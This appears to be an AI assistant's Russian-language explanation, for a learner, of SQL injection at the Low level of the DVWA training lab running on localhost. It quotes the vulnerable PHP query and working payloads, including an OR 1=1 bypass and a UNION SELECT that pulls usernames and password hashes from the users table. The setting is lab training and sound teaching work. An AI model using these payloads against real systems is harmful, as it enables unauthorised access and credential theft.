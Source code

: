 Отлично, Александр — ты уже проделал серьёзную работу, проверяя **SQL Injection** на всех уровнях сложности в DVWA. Ниже системное объяснение всего, что ты сделал, и **как именно работает SQL-инъекция** на каждом уровне (`Low`, `Medium`, `High`) — в контексте DVWA.

---

## 💉 SQL Injection в DVWA — Подробное объяснение

---

## 🔓 Уровень **Low**

**URL:** `http://localhost:8081/vulnerabilities/sqli/`

**Пример инъекции:**

```
1' OR 1=1#
```

### ✅ Что происходит:

* Сервер напрямую вставляет входные данные в SQL-запрос **без экранирования**:

```php
$id = $_GET['id'];
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";
```

После подстановки:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' OR 1=1#
```

* `OR 1=1` всегда **истинно** → выводятся **все пользователи**
* `#` (или `--`) — **SQL комментарий**, обрывает остальную часть запроса.

---

### 📌 Вариант с UNION:

```
' UNION SELECT user, password FROM users#
```

Этот вариант делает **объединение двух SELECT**:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '' UNION SELECT user, password FROM users#
```

* В результате ты получаешь логины и пароли из таблицы `users`, потому что структура полей в `UNION` совпадает (2 поля).
* Вывод отображает эти данные.

---

